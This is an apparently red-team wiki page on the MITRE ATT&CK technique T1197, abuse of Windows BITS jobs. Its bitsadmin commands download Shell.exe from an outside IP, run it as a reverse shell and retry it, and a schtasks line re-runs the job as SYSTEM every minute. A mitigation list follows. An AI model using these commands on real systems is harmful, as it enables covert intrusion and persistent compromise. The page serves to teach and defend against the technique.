 ```yaml
---
description: https://attack.mitre.org/techniques/T1197/
---
```


# BITS Jobs

**ATT\&CK ID:** [**T1197**](https://attack.mitre.org/techniques/T1197/)

**Permissions Required:**

**Description**

Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM).BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through PowerShell and the BITSAdmin tool.

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).

BITS upload functionalities can also be used to perform Exfiltration Over Alternative Protocol.

[\[Source\]](https://attack.mitre.org/techniques/T1197/)

## Techniques

```bash
# Create BITS Job
bitsadmin /create Shell

# Point to URL of shell
bitsadmin /addfile Shell "http://10.10.10.200/Shell.exe" "C:\Windows\Temp\Shell.exe"

# Set Command
bitsadmin /SetNotifyCmdLine Shell C:\Windows\Temp\Shell.exe NUL

# Set to run every 5 minutes on transient error
bitsadmin /SetMinRetryDelay "Shell" 300

# Resume job
bitsadmin /resume Shell
```

Creation of BITS job.

![](../../../.gitbook/assets/Bitsadmin-Job-Creation.png)

Executing the BITS job gives back a reverse shell.

![](<../../../.gitbook/assets/image (228).png>)

BITS jobs will also run again after a reboot when the user it was created under logs in again.

`Schtasks` can also be used to run the created BITS job on a regular interval. The command below runs our newly created BITS job every minute.

```
schtasks /create /tn "BitsJob" /sc minute /mo 1 /ru SYSTEM /tr "C:\Windows\System32\bitsadmin.exe /resume "\Shell\""
```

## Mitigation

* Consider limiting access to the BITS interface to specific users or groups
* Modify network and/or host firewall rules, as well as other network controls, to only allow legitimate BITS traffic.
* Consider reducing the default BITS job lifetime in Group Policy or by editing the `JobInactivityTimeout` and `MaxDownloadTime` Registry values in `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\BITS`.[\[2\]](https://msdn.microsoft.com/library/windows/desktop/bb968799.aspx)

## Further Reading

**Temporal Persistence with bitsadmin and schtasks:** [https://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html](https://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html)
